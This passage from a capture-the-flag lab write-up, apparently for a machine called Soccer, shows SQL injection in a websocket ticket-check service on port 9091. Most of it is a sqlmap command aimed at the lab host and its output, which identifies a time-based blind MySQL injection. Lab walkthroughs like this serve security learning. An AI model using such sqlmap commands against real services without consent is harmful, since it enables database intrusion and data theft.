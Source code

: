 The page was making a websocket request to port 9091 to check if the ticket existed or not. 

I tried SQL Injection, and it worked. 

![SQL Injection](/assets/images/2023/01/Soccer/WebSocketSQLi.png "SQL Injection")

I was about to write a script to extract the data, but I decided to check if sqlmap could exploit websockets. 

```bash
$ sqlmap -u "ws://soc-player.soccer.htb:9091" --data='{"id":"123*"}'
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.7#stable}
|_ -| . [']     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not re
sponsible for any misuse or damage caused by this program

[*] starting @ 19:16:51 /2023-01-25/

custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q]
JSON data found in POST body. Do you want to process it? [Y/n/q]
[19:16:53] [INFO] testing connection to the target URL
[19:16:56] [INFO] testing if the target URL content is stable
[19:16:56] [INFO] target URL content is stable
[19:16:56] [INFO] testing if (custom) POST parameter 'JSON #1*' is dynamic
[19:16:56] [WARNING] (custom) POST parameter 'JSON #1*' does not appear to be dynamic
[19:16:57] [WARNING] heuristic (basic) test shows that (custom) POST parameter 'JSON #1*' might not be injectable
[19:16:57] [INFO] testing for SQL injection on (custom) POST parameter 'JSON #1*'
[19:16:57] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[19:16:57] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[19:16:57] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[19:16:58] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[19:16:59] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[19:16:59] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[19:17:00] [INFO] testing 'Generic inline queries'
[19:17:00] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[19:17:00] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[19:17:01] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[19:17:01] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[19:17:12] [INFO] (custom) POST parameter 'JSON #1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]
[19:17:24] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[19:17:24] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
```